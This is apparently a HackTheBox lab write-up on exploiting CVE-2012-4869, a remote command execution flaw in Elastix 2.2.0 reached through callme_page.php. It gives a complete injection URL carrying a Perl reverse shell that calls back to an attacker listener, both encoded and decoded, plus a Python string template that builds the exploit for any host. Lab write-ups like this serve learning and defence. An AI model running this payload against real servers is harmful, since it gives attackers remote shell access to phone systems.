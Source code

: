# ExploitDev Journey #3 | CVE-2012-4869 | Elastix 2.2.0 - Remote Command Execution

Original Exploit: https://www.exploit-db.com/exploits/18650 <br>


**Exploit name**: FreePBX 2.10.0 / Elastix 2.2.0 - Remote Command Execution <br>
**CVE**: 2012-4869 <br>
**Lab**: Beep - HackTheBox


### Description
There is a vulnerability in Elastix that allows us to execute system commands through `callme_page.php` function.
Elastix is an unified communications server software that brings together IP PBX, email, IM, faxing and collaboration functionality. It has a Web interface and includes capabilities such as a call center software with predictive dialing.

Here we are going to use that vulnerability to execute system commands and get a shell.

<br>

### How it works
The exploit is pretty much simple, unlike other exploits all you have to do is craft a URL that includes your listener IP and port and then send the `GET` request. The URL looks like this:
```
https://10.129.112.39/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.2%3a1337%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
```
Let's break it down piece by piece to understand it. As you can see there are a lot of URL encoded characters, after decoding here is the result:
```
https://10.129.112.39/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n
Application: system
Data: perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.14.2:1337");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'



```

Did you notice that there are line breaks but those line breaks are encoded to form the URL properly?
Also note that I didn't make any mistake in decoding the URL, it actually has 2 line breaks at the end, line breaks are encoded to `%0D%0A` and they act just like `\n` in Python but when it comes to HTTP data, you can't just use `\n` for creating a newline, you have to use `\r\n`.

To understand this type of encoding better, let's take a look at the request headers of a BurpSuite session:
‍‍<img src="https://i.ibb.co/9V84hyn/beep1.png">

After ticking the `\n` button on the top, the newline characters were added, that's why when making that GET request and sending it to the browser we need to use the type of URL encoding that's acceptable for the system.

> `callme_page.php`


This is where the vulnerability actually exists, from here we provide queries to the application to perform certain tasks. First is that we specify an action and I think `c` here stands for `call` (guessing) then we specify a number with `callmenum`, some exploits have provided random numbers, some provided 1000 but somehow providing 233 works. It is as if there is something in the functionality of the application that makes it work when a specific number is provided:
```
callme_page.php?action=c&callmenum=233@from-internal/n
```

Then comes `@from-internal` and here we want to use `system` so that we can execute system commands:
```
Application: system
```
Then we pass data to it:
```
Data: perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.14.2:1337");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

The data keyword above has a value which is Perl code, the application that we specified above executes our data as a system command. Once the following command is executed:
```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.14.2:1337");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

We get our reverse shell, here is my listener's IP and port: `INET(PeerAddr,"10.10.14.2:1337")`

There is not much to it, that's everything you need to know. However developing an exploit that *works* is the confusing part and I will explain why.

<br>

### Writing the exploit
Writing the exploit is said to be tricky and confusing at the same time. First of all I couldn't find a library for python3 that allowed me to send the GET request to the website. The machine that I am targetting is Beep and it has an outdated SSL certificate.
Many libraries such as requests and pycurl did not allow me to send that GET request to the server, it was better to just craft a URL that you could copy and paste to your browser and get a reverse shell.

You might be able to use `os.system` along with some built-in system commands to send the request and get a reverse shell but that's not advised to do so and the reason is that I want to write portable code or code that works across different platforms so the best way is to just generate the URL.

You can use string formatting to do that:
```py
url = f'{rhost}/recordings/misc/callme_page.php?action=c&callmenum={callmenum}@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22{lhost}%3a{lport}%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'
```

That's it, the rest of the exploit should be self-explanatory.

<br>

### Final thoughts
You might have thought "If I had to automate this, what library could I have used?". I don't have an answer to that question at the moment, I don't know which library I should use to make it possible but for now you are left with a crafted URL that you have to copy and paste.
Not all websites have outdated certificates but this one had and I had to develop the type of exploit that works on this machine.
